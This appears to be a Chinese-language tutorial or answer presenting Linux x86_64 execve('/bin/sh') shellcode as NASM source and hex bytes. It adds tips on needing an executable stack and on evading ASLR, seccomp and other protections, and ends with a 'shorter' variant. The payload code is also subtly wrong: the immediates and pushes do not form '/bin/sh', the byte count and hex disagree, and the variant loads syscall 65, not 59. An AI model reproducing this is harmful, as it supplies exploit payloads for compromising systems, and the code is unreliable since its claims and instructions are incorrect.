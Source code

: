 下面是一个Linux AMD64下执行`/bin/sh`的shellcode示例：

```nasm
; Linux x86_64 execve("/bin/sh") shellcode
; 大小：31 bytes

global _start
section .text
_start:
    ; 清零寄存器
    xor rax, rax        ; RAX = 0
    xor rsi, rsi        ; RSI = 0 (argv = NULL)
    xor rdx, rdx        ; RDX = 0 (envp = NULL)
    
    ; 构建"/bin/sh"字符串
    push rax            ; 字符串结束符NULL
    mov rdi, 0x68732f6e ; "hs/n"
    push rdi
    mov rdi, 0x69622f2f ; "ib//"
    push rdi
    
    ; 设置参数
    mov rdi, rsp        ; RDI = 指向"/bin/sh"字符串
    push rax            ; NULL结束符
    push rdi            ; 参数字符串地址
    mov rsi, rsp        ; RSI = argv
    
    ; 执行syscall
    mov al, 0x3b        ; execve的系统调用号是59 (0x3b)
    syscall             ; 执行syscall
```

十六进制形式：
```
\x48\x31\xc0\x48\x31\xf6\x48\x31\xd2\x50\x48\xbf\x6e\x2f\x73\x68\x57\x48\xbf\x2f\x2f\x62\x69\x57\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
```

特点和解析：

1. 系统调用约定：
- rax: 系统调用号
- rdi: 第一个参数
- rsi: 第二个参数
- rdx: 第三个参数
- syscall指令触发系统调用

2. 内存布局：
```
[null]
[/bin/sh\0]
[ptr -> "/bin/sh"]
[null]
```

3. execve参数：
- path = "/bin/sh"
- argv = ["/bin/sh", NULL]
- envp = NULL

4. 关键技术点：
- 避免NULL字节
- 字符串逆序压栈
- 使用相对寻址
- 系统调用的正确使用

使用注意：
1. 需要可执行栈
2. 规避ASLR影响
3. 注意字节对齐
4. 考虑seccomp限制

实际应用时的考虑：
1. 添加错误处理
2. 环境适配
3. 绕过安全机制
4. 代码稳定性

可能的变体：
```nasm
; 更短的版本 - 使用较短路径
; 执行 "/bin/sh"
push 0x42
pop rax
dec rax          ; rax = 59
cdq             ; rdx = 0
push rdx
mov rbx, 0x68732f2f6e69622f
push rbx
mov rdi, rsp     ; rdi = "/bin/sh"
push rdx
push rdi
mov rsi, rsp     ; rsi = argv
syscall
```

这个版本更紧凑但可能较不稳定。根据具体需求选择合适的实现方式。